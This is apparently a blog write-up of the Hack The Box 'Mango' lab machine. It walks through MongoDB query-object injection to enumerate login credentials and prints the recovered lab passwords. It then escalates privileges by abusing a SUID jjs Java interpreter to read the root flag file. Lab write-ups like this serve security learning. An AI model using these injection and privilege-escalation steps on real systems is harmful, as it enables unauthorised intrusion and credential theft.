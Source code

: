 ```yaml
---
title: "Mango = Mongo?"
date: 2020-01-15T13:34:47-05:00
draft: false
description: "MongoDB/NoSQL Query Object Injection | Mango (HTB)"
---
```


# MongoDB Query Object Injection | Mango (HTB)

Mango is a vulnerable host rated "Medium" on HackTheBox.eu.   

```
Hostname: mango  
IP Address: 10.10.10.162  
Ports: 20, 80, 443 
``` 

# Attack Method Explanation  


MongoDB Query Object Injection sounds super difficult but it is actually quite simple. Without proper sanitization of inputs to MongoDB queries, we can simply enumerate things like variable length, contents, included characters, using a systematic passing of MongoDB's query objects. Examples of such objects:  

```
$eq     "equal to"
$gt     "greater than"
$gte    "greater than or equal to"
$ne     "not equal to"
```

So with an example string of username=slixperi, we can enumerate the "rob" user by injecting (pseudo-code):  

```bash
POST  
for character a-zA-Z0-9:  # try all characters from a-z, A-Z 
    username[$eq]=a       # and 0-9 (dont forget special chars!)
        if response != 302:  
            character += 1  
        else  
            save character and move to next  
```
Eventually we build a list of valid characters for the username, and then the password once we direct the code towards the password parameter in our POST request. The same can be done to any insufficiently-validated parameter that goes into MongoDB queries.  


https://docs.mongodb.com/manual/reference/operator/query/




## Service Enumeration  

Navigating to https://10.10.10.162:443/ we are greeted with an invalid certificate warning. Taking a look at the certificate that is invalid we can see that there is a subdomain listed for the site at **staging-order.mango.htb**  

We can append staging-order.mango.htb and mango.htb to our /etc/hosts file in order to setup proper routing to the subdomain/domain. 

cat /etc/hosts
```
127.0.0.1       localhost
10.10.10.162    staging-order.mango.htb mango.htb
```

We are prompted with a login portal when visiting **http**://staging-order.mango.htb.  We can take this as a hint to look at the plaintext http traffic with a proxy tool like BurpSuite. Unfortunately all we see in Burp is a POSt request to the endpoint, which occasionally returns a 302 redirect to a weird page if we send some junk in the parameters. It turns out that using the box name "Mango" as a hint is the key since it indicates that the backend is MongoDB. NoSQLi/Object Query injection anyone? (very ctf-y but such is life). If you dirbuster/gobuster/dirb'd both endpoints you undoubtedly discovered /analytics.php which is a complete and total rabbit-hole including the discovered ian / ian sadovey / Ians-MBP found through enumerating the connected Elasticsearch indices. 

Luckily, an0nik wrote a solid enumeration script for insecure object references in MongoDB parameters.  

[Nosql-MongoDB-injection-username-password-enumeration](https://github.com/an0nlk/Nosql-MongoDB-injection-username-password-enumeration.git)

# Attack Path

We can now attack the endpoint with the script, passing the appropriate flags.  

```bash
python3 nosqli-user-pass-enum.py -u http://staging-order.mango.htb \
-m POST -up username -pp password -op login:login -ep username
```

```bash
python3 nosqli-user-pass-enum.py -u http://staging-order.mango.htb \
-m POST -up username -pp password -op login:login -ep password
```
```mango:h3mXK8RhU~f{]f5H```  
```admin:t9KcS3>!0B#2```

> The above "\\" character simply allows for linux to process the next line as all one command, allowing for easier viewing for the reader, maintaining copy-paste functionality.  

We can then SSH into the box as the mango user:  

```bash
ssh mango@10.10.10.162
```
> h3mXK8RhU~f{]f5H

Now to gain access of the "admin" user we can just use "su":  
```bash
su admin  
```  
> t9KcS3>!0B#2

We can then list the SUID/SGID binaries available to us by running LinEnum.sh or the following bash command:  
```bash
find / -perm -g=s -o -perm -u=s -type f 2>/dev/null    # SGID or SUID
```

**/usr/lib/jvm/java-11-openjdk-amd64/bin/jjs**

This is a Java interpreter, similar to irb or python from the command line; since it runs at root, we are root if we can craft just the right Java object!  

gtfobins has a great reference for this type of work, however the shell-invocation attempt tends to crash on this host - I wasn't able to figure out quite why, but directly reading the root.txt flag will definitely work. First run the Java interpreter by providing the exact patht to the executable, and then create the following Java commands.

```bash
/usr/lib/jvm/java-11-openjdk-amd64/bin/jjs
```
```java
var filename = "/root/root.txt";
var content = new java.lang.String(
                    java.nio.file.Files.readAllBytes(
                      java.nio.file.Paths.get(filename)
                    )
                  );
print(content)
```  

> The content variable ultimately stores the result from the readAllBytes method, and then we call the print method on content to read the flag!





